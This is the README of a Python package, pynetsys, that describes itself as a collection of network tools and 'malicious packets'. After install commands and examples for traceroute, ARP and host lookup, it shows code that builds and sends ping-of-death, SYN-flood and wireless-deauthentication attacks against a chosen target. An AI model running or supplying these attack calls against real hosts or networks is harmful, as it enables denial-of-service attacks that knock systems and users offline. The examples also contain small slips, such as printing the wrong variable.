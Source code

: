 # PYNETSYS

pynetsys is a collection of tools and malicious packets.

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = pynetsys.packet.Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = packet(target = "example.org", attack = pynetsys.packet.Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = pynetsys.packet.Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```
